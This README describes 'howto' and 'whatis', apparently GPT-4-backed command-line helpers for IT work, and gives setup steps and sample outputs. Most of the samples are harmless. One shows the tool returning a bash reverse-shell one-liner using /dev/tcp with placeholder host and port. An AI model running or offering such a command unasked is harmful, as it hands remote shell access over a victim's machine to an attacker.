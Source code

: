 # howto & whatis

Simple, GPT-4 powered, command-line tools designed to assist IT professionals with their daily tasks.

## Setup

1. Set `OPENAI_API_KEY` environment variable containing OpenAI API key.
2. Download the release binaries or (modify the code and) build them by yourself using `cargo build -r`.
3. Place the `howto` and `whatis` binaries in your `PATH`.

## Usage examples

### howto

```shell
$ howto format string in Rust

Use the `format!` macro. For example: `let s = format!("{} {}", "Hello", "World");`

```

#### With verbose flag set (`-v` or `--verbose`)
~~~shell
$ howto format string in Rust -v

In Rust, you can format strings using the `format!` macro. This macro works similarly to `println!`, but instead of printing the output to the console, it returns a `String` with the formatted text.

Here's an example that uses `format!` to insert variables into a string with placeholder syntax:

```rust
fn main() {
    let name = "Alice";
    let age = 30;
    let formatted_string = format!("My name is {} and I am {} years old.", name, age);
    println!("{}", formatted_string); // Prints: My name is Alice and I am 30 years old.
}
```

The `{}` are placeholders for the values of `name` and `age`. The `format!` macro will replace them with the string representation of the corresponding variables.
~~~

~~~shell
$ howto get reverse shell using bash

```bash
bash -i >& /dev/tcp/HOST/PORT 0>&1
```
~~~

### whatis

```shell
$ whatis decoded string: aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ==

The decoded string is: https://www.youtube.com/watch?v=dQw4w9WgXcQ

```

```shell
$ whatis xss

Cross-Site Scripting
```

#### With verbose flag set (`-v` or `--verbose`)

```shell
$ whatis xss -v`

XSS, or Cross-Site Scripting, is a security vulnerability typically found in web applications. It allows attackers to inject malicious scripts into web pages viewed by other users. A common example is when a hacker exploits the vulnerability by embedding a script in a comment or input field that is then executed in other users' browsers, potentially stealing cookies or session tokens, defacing web sites, or redirecting users to malicious sites.
```

## Credits
The tools are based on [Gynvael's script](https://gynvael.coldwind.pl/?id=771) seen on his live streams.
